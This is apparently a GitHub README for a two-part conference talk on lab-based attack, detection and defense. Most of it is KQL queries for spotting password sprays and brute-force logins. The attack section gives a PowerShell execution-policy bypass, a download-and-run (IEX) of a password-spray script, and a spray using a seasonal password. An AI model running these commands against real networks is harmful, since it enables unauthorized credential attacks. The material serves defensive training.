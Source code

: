 # Nebraska Cyber Security Conference 2024 - Talk Slides &; Content

## Attack Detect Defend - Jordan Drysdale & Kent Ickler

This-two part talk is a condensed sample from a 16hr training course Jordan and Kent teach, offered by AntiSyphonTraining.com.

In the two sessions we will give an overview into what we call threat optics: auditing endpoints, centralizing logs and visualizing results.

Each student will leave the class having experienced a penetration test through three distinct perspectives, each building on the previous. These will include adversarial attacks, examination of defensive postures, and wrapped up with various detection methodologies using open-source or free industry threat detection and defenses.




![Attack Detect Defend](Z-images/logo/add.png)
![DIV1]


# Course Pre-requisites
This talk discusses 
- GitHub Account 
- Azure Account 
- DOAZLab.com Azure Deployment
- Detailed Instructions: [ADD-Pre-Reqs](https://github.com/DefensiveOrigins/ADD-PreReqs/blob/main/README.md) 

# Course Information 
&#x1F6C8;  [H0001 - Course Information][H0001]  
&#x1F6C8;  [H0004 - Course Instructors][H0004]  




# Conference Talk Content    

## Attack Detect Defend - Part 1 (~09/17/24 9:00 AM)

### Slides
- [NECSC24 Attack Detect Defend Part 1][necsc241]

### Password Spray

Launch a PowerShell session with no script validation checks. This will be our first run of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack.

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```



### Password Spray

Launch a PowerShell session with no script validation checks. This will be our second iteration of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack. Re-run the attack. 

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```

The next query uses some underlying accounts, preconfigured for easy detections. Boom - failed logins on known accounts? Guess what, easy detect.

```
SecurityEvent
| where EventID == 4625
// remember the deception account naming conventions? 
| where Account contains "DOLabs"
| project TimeGenerated , Activity , Account
```

Luis and Heloise are both canary accounts we know and maintain. Let's check on them.

```
SecurityEvent
| where EventID == 4624 or EventID == 4625 or EventID == 4776
| where Account contains "Heloise" or Account contains "luis"
| project Activity, Account, Computer, IpAddress
```

Ever seen a password spray in real time logs? 

```
SecurityEvent
| where EventID == 4625
| where TimeGenerated > ago(24h)
| summarize Count=count() by bin(TimeGenerated, 1m)
| render timechart
```

Let's look at some source IP addresses.

```
SecurityEvent
| where EventID == 4625 or EventID == 4776
| summarize count() by IpAddress
```

## Attack Detect Defend - Part 2 (~09/17/24 10:00 AM)

### Slides
- [NECSC24 Attack Detect Defend Part 2][necsc242]

### Some additional commands, listed below, can help with attribution. Though, what can we actually do with this info? 

Geo-lookup!!!

```kusto
let ipdata = externaldata(network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = union Event, SecurityEvent
| where EventID in ("4624","4625")
    and AccountType != "Machine"
    and IpAddress != "-" 
| project IpAddress, TimeGenerated, Activity, EventID;
IPs
| evaluate ipv4_lookup(ipdata, IpAddress, network)
| summarize Count = count() by IpAddress, network, country_iso_code, country_name
| order by Count 
```

Let's check some outbound connections...

```kusto
let ipdata = externaldata (network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = SysmonParser
| where EventID == 3
| where dst_ip != '168.63.129.16'
| summarize by UserName, Computer, tostring(process_path), tostring(src_ip), tostring(src_port), tostring(dst_ip), tostring(dst_port),  tostring(network_protocol), TimeGenerated;
IPs
| evaluate ipv4_lookup(ipdata, dst_ip, network)
| summarize Count = count() by Computer, dst_ip, process_path, country_name
| sort by Count
```

How about a quick peek at the usernames landing in our logs?

```kusto
SecurityEvent
| where EventID == 4625
| summarize count() by TargetAccount
| order by count_
```

Let's take a look at arrays associated with the users guessed by specific source IP addresses.

```kusto
union Event, SecurityEvent
| where TimeGenerated < ago(30m)
| where EventID == 4625 or EventID == 4776
| project Account , IpAddress
| summarize USERs = make_set(Account) by IpAddress
| where USERs[1] != ""
```

This is a failed login perspective based on a timechart. We may have already seen this :D.

```kusto
SecurityEvent
| where EventID == 4625
| where TimeGenerated > ago(4h)
| summarize Count=count() by bin(TimeGenerated, 1m)
| render timechart
```

One last look! Here, we have an SSH server exposed to the Internet. At the time of this gig, Thailand was getting after it! 

```
let ipdata = externaldata(network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = Syslog
| where SyslogMessage startswith "Failed Password"
| order by EventTime desc 
| extend User = extract("for(?s)(.*)from",1,SyslogMessage)
| extend IPaddr = extract("(([0-9]{1,3})\\.([0-9]{1,3})\\.([0-9]{1,3})\\.(([0-9]{1,3})))",1,SyslogMessage) 
| project HostName, SyslogMessage, EventTime, IPaddr, User;
IPs
| evaluate ipv4_lookup(ipdata, IPaddr, network)
| summarize Count = count() by IPaddr, network, country_iso_code, country_name
| order by Count 
```



Copyright - All Rights Reserved, Defensive Origins LLC
<!-- DO-MD-FOOTER-END -->

<!-- DO-MD-SHORTCUTS-START -->
[Home]: ./README.md
[evidref]: 9-Others/Cheatsheets/EventIDs.md
[addlogo]:Z-images/logo/add.png
[addlogosm]:Z-images/logo/addsm.png
[addlogo]:../../Z-images/logo/add.png
[addlogosm]:../../Z-images/logo/addsm.png
[WWHF]: https://wildwesthackinfest.com/
[XXXX]: https://www.google.com
[ph_jd]: Z-images/photo/jd1.png
[ph_ki]: Z-images/photo/ki1.png
[H0004]: /9-Others/H0040-Instructors/README.md
[H0001]: /9-Others/H0001/README.md
[DOImage]: Z-images/do_darkbackground.jpg
[DOImage]:Z-images/do_darkbackground.jpg
[DefOrg]: https://defensiveorigins.com/
[Div1]: Z-images/div/div1.png
[Div2]: Z-images/div/div2.png
[DO]: https://www.defensiveorigins.com
[DO1]: Z-images/logo/DO1.png
[DO1sm]: Z-images/logo/DO1sm.png
[DOAboutUs]: https://defensiveorigins.com/about-us
[DOAZLab]: https://www.doazlab.com
[DOAZLab-Github]: https://github.com/DefensiveOrigins/DO-LAB
[1]: https://defensiveorigins.com/
[2]: https://wildwesthackinfest.com/training/
[APT]:https://github.com/DefensiveOrigins/AtomicPurpleTeam
[necsc241]:https://github.com/DefensiveOrigins/NECSC24/blob/main/9-Others/Attack-Detect-Defend-NECSC-part1%20(1).pdf
[necsc242]:https://github.com/DefensiveOrigins/NECSC24/blob/main/9-Others/Attack-Detect-Defend-NECSC-part1%20(2).pdf